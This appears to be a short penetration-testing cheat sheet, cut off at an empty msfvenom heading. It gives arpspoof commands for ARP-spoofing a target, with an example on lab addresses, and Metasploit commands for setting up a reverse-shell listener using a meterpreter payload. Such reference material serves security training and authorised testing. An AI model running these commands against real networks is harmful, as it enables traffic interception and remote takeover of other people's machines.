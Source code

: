 #### `arpspoof`

First, tell your machine to forward packets to the destination host

```console
$ echo 1 > /proc/sys/net/ipv4/ip_forward
```

Then, run `arpspoof`:

```console
$ arpspoof -i <INTERFACE> -t <TARGET> -r <HOST>
```

For example:

```console
$ arpspoof -i tap0 -t 10.10.5.1 -r 10.10.5.7
```

#### Basic Metasploit Usage

Launch Metasploit by running:

```console
$ msfconsole
```

Basic commands:

```console
# Search for exploit
msf5 > search apache

# Use exploit (by number)
msf5 > use 1

# Use exploit (by name)
msf5 > use exploit/multi/handler

# Set parameter
msf5 > set payload windows/x64/meterpreter/reverse_tcp

# Show parameters and other options
msf5 > show options
```

For example, to configure a listener for a reverse shell:

```console
$ msfconsole
$ use exploit/multi/handler
$ set payload <REVERSE SHELL PAYLOAD>
$ set LHOST <LISTENER IP>
$ set LPORT <LISTENER PORT>
$ exploit
```

#### Generate Payload Using `msfvenom`
